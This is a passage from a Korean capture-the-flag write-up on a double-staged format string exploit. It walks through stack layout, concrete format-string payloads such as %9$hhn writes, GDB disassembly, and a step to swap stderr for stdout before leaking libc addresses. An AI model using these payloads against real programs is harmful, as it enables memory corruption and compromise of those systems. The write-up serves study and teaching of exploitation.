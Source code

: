 그래서 `fprintf()`를 할 때의 stack을 출력해보았는데, `push rbp`를 하다가 생긴 stack 영역의 주소가 두 개 있었다.

여기에서 왜 굳이 `main()` -> `sub_937()` -> `sub_8D0()`으로 함수를 호출할까에 대한 의문이 풀렸는데, Double Staged FSB가 가능하게 하기 위함이었다.

`0x7fffffffebd0($rsp+0x20)`이 `0x7fffffffebe0($rsp+0x30)`을 가리키고 있어서 FSB를 이용하면 `0x7fffffffebe0`에 원하는 주소를 구성할 수 있다.

`0x7fffffffebd0`이 9번째 format string이기 때문에, 다음과 같이 payload를 작성하면 `0x7fffffffebe0`에 담겨있는 값을 컨트롤할 수 있다.

-   %1c%9$hhn : 0x00007fffffffebf0 -> 0x00007fffffffeb01
-   %258c%9$hn : 0x00007fffffffebf0 -> 0x00007fffffff0102
-   %16909060c%9$n : 0x00007fffffffebf0 -> 0x00007fff01020304

디버깅 환경에서는 편의를 위해 ASLR을 꺼놓았기 때문에 `$rsp`의 첫 바이트가 `0xb0`로 고정되어있지만, 실제 서버 환경에서는 ASLR이 켜져있을 것이므로 이 때 1/16 확률로 exploit 성공률이 떨어지게 된다.

아무튼 로컬 환경에서는 에러 메세지도 볼 수 있기 때문에 `fprintf(stderr, format)` 결과를 볼 수 있었는데, 서버 환경에서는 에러 메세지를 볼 수가 없다.

따라서 위 stack control을 통해 먼저 해야할 것은`stderr`를 `stdout`으로 만들어서 다음 단계로 넘어가는 것이라고 판단했다.

### Libc leak

``` bash
# fprintf(stderr, format);
gef➤  x/5i 0x55555540090e
   0x55555540090e:      mov    rax,QWORD PTR [rbp-0x8]
   0x555555400912:      lea    rsi,[rip+0x200747]        # 0x555555601060
   0x555555400919:      mov    rdi,rax
   0x55555540091c:      mov    eax,0x0
   0x555555400921:      call   0x555555400778 <fprintf@plt>
```

`fprintf`의 `stderr`는 libc의 `Data`영역에 있는 `stderr`가 아닌, `sub_8D0()`를 호출할 때 인자로 전달한 stack에 있는 `stderr`이다.

그리고 이 `stderr`는 `$rbp-0x8`으로 접근할 수 있는데, 이 주소는 `0x7fffffffebc8($rsp+0x18)`이다.

다행히 컨트롤할 수 있는 `0x7fffffffebe0`에 이미 stack 영역의 주소가 담겨있으므로, 첫 바이트만 `0xc8`으로 덮으면 `0x7fffffffebe0`이 `0x7fffffffebc8`을 가리키게 된다.

그러면 `0x7fffffffebe0`이 11번째 format string이기 때문에 `stderr`를 `stdout`으로 바꿀 수 있다.

``` bash
gef➤  x/gx 0x555555601020
0x555555601020 <stdout>:        0x00007ffff7dd2620
gef➤  x/gx 0x555555601040
0x555555601040 <stderr>:        0x00007ffff7dd2540
```

하지만 여기에서도 `stderr`와 `stdout`의 두 번째 바이트가 다르기 때문에, `0x7fffffffebc8`의 첫 두 바이트를 `0x2620`으로 덮어쓰게 되면 ASLR에 의해 또다시 exploit 확률이 1/16이 된다.

최종적으로는 1/256 확률로 exploit이 가능하다.

``` bash
'0x7ffff7dd3790 0x7ffff7b04360 0x7ffff7dd3780 0x7ffff7ff2700 0x555555400a88 0x7ffff7dd2540 (nil) 0x7ffff7dd2620 0x7fffffffebe0 0x555555400962 0x7fffffffebc8 0x5555554009d7 0x5555554009f0 0x7ffff7a2d840 \n'
```
